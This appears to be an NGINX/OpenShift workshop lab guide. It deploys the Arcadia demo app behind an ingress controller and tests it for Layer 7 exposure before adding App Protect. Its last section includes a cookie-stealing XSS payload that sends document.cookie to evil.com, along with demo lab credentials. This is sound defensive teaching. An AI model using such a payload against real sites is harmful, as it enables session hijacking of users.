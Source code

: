 == Access Arcadia App without NGINX App Protect to establish a baseline
------------------------------------------------

== Cleanup Process

Upon the completion of Lab Module 1, it's necessary to tidy up the lab
environment. Please follow the steps mentioned below.

Execute the following commands in the bash terminal:

----
[source,bash]
----
oc delete virtualserver arcadia
oc delete -f arcadia.yml 
----
----

== Deploy the Arcadia Application into Kubernetes

[NOTE]
.Note
====
The Arcadia Financial application is the same application we introduced
in Module 1, but a different version with enhanced features which will
be used for our security lab exercises.
====

Before we can access the Arcadia application, we need to deploy it into
our Kubernetes cluster. To do this, we'll use a single manifest file
that contains the necessary resources, such as Kubernetes deployments
for the four Docker containers and Kubernetes services for the four
Docker containers.

To get the YAML file, we'll use the following command in our terminal
window:

[source,bash]
----
wget https://raw.githubusercontent.com/ericzji/nginx-openshift-lab/main/docs/class1/module2/templates/arcadia-all.yaml
----

Once we have the YAML file, we can apply it to our Kubernetes cluster
with the following command:

[source,bash]
----
oc apply -f ./arcadia-all.yaml
----

We can check that our Arcadia application is running by using the
following command in our terminal window:

[source,bash]
----
oc get services
----

This will show us the services running in our Kubernetes cluster,
including those related to the Arcadia application.

== Export the NGINX Ingress Controller services

Interacting with the NGINX Ingress Controller is more comfortable with
exporting the service External IPs into system variables. This allows
for templating to take place when we expose our applications.

In the terminal window, copy the below text and paste+enter:

[source,bash]
----
export nginx_ingress=$(oc get svc my-nginx-ingress-controller --namespace=nginx-ingress | tr -s " " | cut -d' ' -f4 | grep -v "EXTERNAL-IP")
----

== Publish Arcadia app with NGINX Plus Ingress Controller

Now that we have our Arcadia application deployed in our Kubernetes
cluster, we need to publish it using the NGINX Plus Ingress Controller.
We'll do this by re-creating the NGINX Ingress Controller with Basic
HTTP using the following command in our terminal window:

This command creates a VirtualServer resource for our Arcadia
application, which includes the host for the NGINX Ingress Controller
and the upstreams for the different microservices. We can now access our
Arcadia application externally using the NGINX Ingress Controller URL,
which can be found by running the following command in our terminal
window:

[source,bash]
----
echo "NGINX Ingress Controller URL: http://$nginx_ingress/"
----

Once we have the URL, we can access our Arcadia application by opening
it in a web browser.

You should be presented with the Main page, click on Login and enter the
credentials as below.

[source,]
----
Username: matt
Password: ilovef5
----

When you click on Log me in, you should be presented with the Arcadia
application that consists of four microservices:

image:./pictures/image10.png[image]

Congratulations!

You have now successfully deployed the application in the K8s cluster and
published it externally using the NGINX Plus Ingress controller.

== Is our application protected against Layer 7 attacks?

Before we can protect our Arcadia application with NGINX App Protect, we
need to check if it's currently vulnerable to Layer 7 attacks. We can do
this by executing a simple XSS attack, which is a well-known OWASP top
10 attack.

To perform the XSS attack, we can launch the Firefox browser and append
`?a=<script>` to the end of the application URL. If the request is
allowed, then our application is vulnerable to XSS attacks.

image:./pictures/image11.png[image]

We can further test this by appending
`?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`
to the application URL, which will attempt to steal our document cookie.
If this request is also allowed, then a bad actor could potentially
steal sensitive information from our application user.

image:./pictures/image12.png[image]

Since our application is currently vulnerable to Layer 7 attacks, we'll
need to protect it using NGINX App Protect in the following Lab.
